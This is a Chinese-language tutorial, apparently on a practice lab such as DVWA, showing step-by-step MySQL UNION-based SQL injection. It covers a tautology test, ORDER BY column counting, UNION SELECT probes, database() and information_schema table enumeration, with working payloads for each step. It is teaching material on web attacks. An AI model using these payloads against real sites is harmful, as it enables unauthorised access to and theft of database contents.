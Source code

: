 
### 初步注入
``` bash
1' or '1'='1
```

### 猜测查询语句的字段数
即要对查询语句
``` sql
SELECT first_name,last_name FROM users WHERE user_id = '$content'
```
中的`SELECT`字段进行猜测
``` bash
1' or 1=1 order by 1 #
1' or 1=1 order by 2 #
1' or 1=1 order by 3 #
```
尝试到3时出现`No Found`说明`SELECT`里有两个字段数

### 查询刚刚猜测的字段顺序
``` bash
1' union select 1,2 #
```
`sql`语法`union`是将两个集合去重合并，相当于原本返回`admin,admin`，现在又存在`1,2`，通过`union`后就是两行数据

### 获取当前数据库名
``` bash
1' union select 1,database() #
```
`database()`是数据库系统信息函数，作用是获取当前数据库名，其他数据库信息函数有

| 函数 | 作用 |
|--------|--------|
| version()       |     获取数据库的版本号 |
| connection_id() |   获取数据库的连接数   |
| database();schema() |  获取当前数据库名  |
| user();system_user()|  获取当前用户     |
| current_user()  |    	获取当前用户      |
| charset(str)    |    获取字符串str的字符集 |
| collation(str)  |    获取字符串str的字符排列方式 |

### 获取当前表名
``` bash
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```
`mysql`在创建时默认创建一个information_schema数据库，在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。
